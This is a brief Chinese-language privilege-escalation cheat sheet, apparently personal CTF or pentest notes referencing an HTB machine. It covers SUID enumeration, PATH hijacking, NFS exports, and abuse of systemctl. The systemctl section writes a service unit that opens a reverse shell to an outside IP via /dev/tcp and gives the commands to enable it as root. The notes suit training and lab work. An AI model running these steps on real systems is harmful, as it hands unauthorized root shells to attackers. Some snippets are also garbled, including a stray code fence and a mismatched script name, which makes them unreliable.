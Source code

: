 ## 提权

### Sudo
[[htb#Stocker]]



* SUID

* ```shell
  find / -type f -perm -04000 -ls 2>/dev/null
  ```python

  * systemctl

    ```shell
    echo '[Service]
    Type=oneshot
    ExecStart=/bin/bash -c "/bin/bash -i > /dev/tcp/10.4.20.202/9001 0>&1 2<&1"
    [Install]
    WantedBy=multi-user.target' > /dev/shm/mm.service
    
    #生成一个unit名为mm.service,放在/dev/shm 下
    ```

    ```bash
    systemctl link /dev/shm/mm.service
    systemctl enable --now /dev/shm/mm.service
    ```

    > 通常unit存放在`/usr/lib/systemd/system/` 和 `/etc/systemd/system/，可以被systemctl加载执行，但是渗透过程中需要提权的场景往往权限较小，这些目录不可写。而systemctl的特性决定了，当unit在/tmp目录下时，无法被systemctl加载。这里需要掌握一个神奇的目录：/dev/shm/,关于这个目录的解读可以移步：https://www.cnblogs.com/tinywan/p/10550356.html学习掌握。这里就可以把我们生`成的unit文件放置再这个目录

    

​		

* 环境变量

  ```shell
  #查找可写文件夹
  find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
  ```

  ```shell
  export PATH=/tmp:$PATH
  ```

  ```shell
  #新建一个shell
  echo "/bin/bash" >thm
  chmod 777 thm
  ./path
  ```

* NFS(网络文件共享)

  查看 /etc/exports


